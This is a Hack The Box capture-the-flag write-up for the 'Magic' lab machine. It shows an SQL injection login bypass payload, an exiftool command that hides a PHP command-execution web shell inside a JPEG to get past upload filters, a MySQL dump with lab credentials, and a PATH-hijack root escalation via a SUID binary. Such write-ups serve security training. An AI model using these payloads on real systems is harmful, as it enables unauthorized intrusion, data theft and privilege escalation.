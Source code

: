 ```yaml
---
title: "Hack The Box - Magic"
tags: [linux,medium,sqli,upload,mysql,path hijack]
categories: HackTheBox
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled.png)

## NMAP :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%201.png)

## Enumerating Web :

⇒ There's an login page :
[http://10.10.10.185/login.php](http://10.10.10.185/login.php)

→ We are able to login by performing SQLi :

`admin' or 1=1; --';`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%202.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%203.png)

→ Uploaded images go to :
[http://10.10.10.185/images/uploads/](http://10.10.10.185/images/uploads/)

## Exploiting Upload

⇒ There are filters which restrict us to upload php files. So we will use image magic bytes to bypass the check.

→ Lets use exiftool to embed our php script to an jpeg image :

`exiftool -DocumentName="<h1>Enox<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';}__halt_compiler();?></h1>" index.jpeg`

→ Now we will rename the file to index.php.jpeg and upload it 

→ Lets access it :
[http://10.10.10.185/images/uploads/index.php.jpeg](http://10.10.10.185/images/uploads/index.php.jpeg)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%204.png)

We have command execution , lets pop an shell.

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%205.png)

## Privilege Escalation to User

⇒ We found an interesting file db.php5 in the web folder :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%206.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%207.png)

⇒ We got mysql credentials. Lets use it to dump everything in the database.

`mysqldump -u theseus -piamkingtheseus Magic`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%208.png)

→ We got some credentials :
**Th3s3usW4sK1ng**

⇒ We are able to switch to theseus user using the credentials :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%209.png)

## Privilege Escalation to Root

→ After running [linenum.sh](http://linenum.sh) we find an interesting SUID :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2010.png)

**⇒ Escalating Privileges using path variable**

[https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

→ After running strings on the binary we see the following interesting things :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2011.png)

→ We see that full path isnt specified so we can perform path hijacking.

`cd /tmp
echo "/bin/bash" > lshw
chmod 777 lshw
echo $PATH
export PATH=/tmp:$PATH
cd /bin
./sysinfo`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2012.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2012.png)

→ We can't get any output so lets get an reverse shell using python reverse shell from pentest monkey

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2013.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2013.png)

